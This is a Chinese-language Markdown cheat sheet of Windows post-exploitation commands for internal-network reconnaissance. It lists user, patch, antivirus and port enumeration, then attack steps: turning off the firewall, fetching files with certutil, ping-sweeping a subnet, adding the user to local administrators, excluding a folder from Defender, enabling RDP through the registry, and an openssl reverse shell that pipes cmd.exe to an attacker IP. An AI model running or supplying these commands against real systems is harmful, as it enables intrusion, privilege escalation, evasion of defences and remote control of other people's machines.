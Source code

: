 # Windows内网信息搜集

参考：
- [浅析内网信息收集](https://xz.aliyun.com/t/8291)


### 网络配置
```
ipconfig /all
```

### 操作系统信息/英文
```
systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

### 查看杀毒软件信息
```
wmic /namespace:\\root\securitycenter2 path antivirusproduct GET displayName,productState, pathToSignedProductExe
displayName              pathToSignedProductExe                                          productState
Windows Defender         windowsdefender://                                              393488
金山毒霸铠甲防御         c:\program files (x86)\kingsoft\kingsoft antivirus\kxetray.exe  331776
金山毒霸铠甲防御         c:\program files (x86)\kingsoft\kingsoft antivirus\kxetray.exe  331776
ESET Endpoint Antivirus  C:\Program Files\ESET\ESET Endpoint Antivirus\ecmd.exe          266256
```

### 查看计划任务信息
```
schtasks  /query  /fo  LIST /v
```

### 查看用户列表
```
net user
```

### 查看当前在线用户
```
query user || qwinsta
```


### 查看端口开放信息
```
netstat –ano
```

### 查看补丁信息
```
systeminfo
```

或者
```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

### 在某目录下的某些后缀文件中查找某文件内容
```
findstr /s /n /i /c:"class WebPage" "D:\xxx\yyy\*.cs"
```
### Windows下查看IIS的各个网站的目录以及配置信息
```
appcmd list site /config
C:\Windows\SysWOW64\inetsrv\appcmd.exe list site /config
```

### 查看防火墙信息
```
netsh firewall show config
```

### 关闭防火墙
Windows server 2003系统及以前版本，命令如下：
```
netsh firewall set opmode disable
```
Windows server 2003之后系统版本，命令如下：
```
netsh advfirewall set allprofiles state off
```

### 下载文件到某目录
```
certutil.exe -urlcache -split -f "https://www.baidu.com/" C:\baidu.txt
```

### ICMP探测内网
```
for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.85.%I | findstr "TTL="
```

### 将自己加入管理员
```
net localgroup administrators domain\username /add
```

### Defender排除某个目录：
powershell -ExecutionPolicy Bypass Add-MpPreference -ExclusionPath "C:\Users\admin\Downloads"

### Openssl.exe反弹shell：
攻击者：
```
D:\Git\usr\bin\openssl.exe req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #生成证书
D:\Git\usr\bin\openssl.exe s_server -quiet -key key.pem -cert cert.pem -port 80 #命令输入
D:\Git\usr\bin\openssl.exe s_server -quiet -key key.pem -cert cert.pem -port 443 #命令输出
```
被控端：
```
D:\Git\usr\bin\openssl.exe s_client -quiet -connect IP:80|cmd.exe|D:\Git\usr\bin\openssl.exe s_client -quiet -connect IP:443
```

### Windows10下开启Telnet命令：

```
开启
dism /online /Enable-Feature /FeatureName:TelnetClient
关闭
dism /online /Disable-Feature /FeatureName:TelnetClient
```


### 开启RDP
```
wmic RDTOGGLE WHERE ServerName='自己的hostname' call SetAllowTSConnections 0   //先关闭rdp
netsh advfirewall firewall add rule name="RDP7" protocol=TCP dir=in localport=3389 action=allow
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp" /v "portnumber" /t REG_DWORD /d "3389" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v "portnumber" /t REG_DWORD /d "3389" /f
wmic RDTOGGLE WHERE ServerName='自己的hostname' call SetAllowTSConnections 1  //再开启rdp
```
